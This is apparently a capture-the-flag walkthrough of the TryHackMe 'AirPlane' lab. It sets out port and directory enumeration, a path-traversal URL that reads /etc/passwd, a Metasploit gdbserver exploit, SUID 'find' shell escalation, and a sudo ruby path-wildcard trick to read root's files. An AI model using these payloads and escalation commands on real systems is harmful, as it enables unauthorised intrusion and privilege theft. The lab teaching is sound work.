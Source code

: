 <code>
  
https://tryhackme.com/r/room/airplane  

### Service Enumeration
┌──(duke㉿kali)-[~/Documents/THM_AirPlane]
└─$ nmap  -sV -p- -Pn 10.10.128.237
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-13 03:08 CDT
Nmap scan report for 10.10.128.237
Host is up (0.039s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
6048/tcp open  x11?
8000/tcp open  http-alt Werkzeug/3.0.2 Python/3.8.10

http://airplane.thm:8000/?page=index.html

┌──(duke㉿kali)-[~/Documents/THM_AirPlane]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://airplane.thm:8000 -x php,txt,html -k
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
[+] Url:                     http://airplane.thm:8000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
2024/06/13 03:20:15 Starting gobuster in directory enumeration mode
/airplane             (Status: 200) [Size: 655]

### Found Path Traversal 
`http://airplane.thm:8000/?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd`

carlos:x:1000: nothing
hudson:x:1001: get some files from home folder


in files proc/{pid}/cmdline

Found that gdbserver is running on port 6048 with PID 524

### Initial Access
I found out that there is an exploit available for gdbserver, so I used the Metasploit exploit multi/gdb/gdb_server_exec. and fill all required options.

get shell as `Hudson`

run linpeas and pspy32 and found

### Priv Esc
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                    
-rwsr-xr-x 1 carlos carlos 313K Feb 18  2020 /usr/bin/find     


hudson@airplane:/$` ./usr/bin/find . -exec /bin/sh -p \; -quit`
$ id
uid=1001(hudson) gid=1001(hudson) euid=1000(carlos) groups=1001(hudson)

Have access to hudson home folder create own ssh key get full ssh access as **carlos**

### Priv Esc to root

carlos@airplane:/usr/bin$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    `(ALL) NOPASSWD: /usr/bin/ruby /root/*.rb`

**Folders /Root  and /usr/bin/ruby are ofcorse locked for write**
 
 ### Wildcard Exploiting

carlos@airplane:**/home/carlos/**$ echo "puts File.read('/root/root.txt')" > x.rb

carlos@airplane:$ sudo /usr/bin/ruby **/root/../home/carlos/x.rb**


</code>
